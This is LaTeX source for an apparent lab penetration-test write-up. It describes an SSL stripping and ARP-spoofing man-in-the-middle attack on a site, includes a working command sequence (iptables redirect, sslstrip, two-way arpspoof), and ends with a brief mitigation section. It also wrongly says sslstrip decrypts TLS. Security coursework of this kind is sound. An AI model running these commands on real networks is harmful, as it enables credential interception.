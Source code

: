 \documentclass[notitlepage]{article}
\begin{document}
  	\subsubsection*{Vulnerability Description}
    Once the attacker has root access to the system, they can copy over sslstrip, tcpdump, and arpspoof to packet sniff incoming and outgoing packets. They can use these packets to 
    mount an SSL stripping attack. The attacker can then use arpspoof to mount a man in the middle attack. The TLS packets that are normally encoded can then be unencrypted using sslstripping
    tools which reveals a set of credentials as well as a secret website with sensitive user information. We can see an invoice for a set of superhero gauntlets which is information that should
    not be known by the public. 
   
  	\subsubsection*{Confirmation method}
    Going to $https://www.artstailor.com$ reveals there is a https landing page and thus we can attempt an SSLStrip attack.
    We can scp over the initial files we need to mount the attack. Once we have all the essential executables, we can execute the following commands as a root user.
\begin{verbatim}
fuser -k 80/tcp
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT 
--to-port 6166

python3 sslstrip.py -w strip.logs -l 6166 -a
tail -f strip.log
TWO DIFFERENT TERMINALS:
route -n to find gateway (10.70.184.1)
wireshark to find host ip to spoof (10.70.184.101)
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
   
	\subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this issue, we have to make sure that an attacker should never be able to get root access. Changing user credentials and enforce stricter guidlines for what users have root acces
    needs to be enforced. There are also methods to make sure that HTTPS is always enforced and to not provide HTTP alternatives for any HTTPS requests. 
    

\end{document}
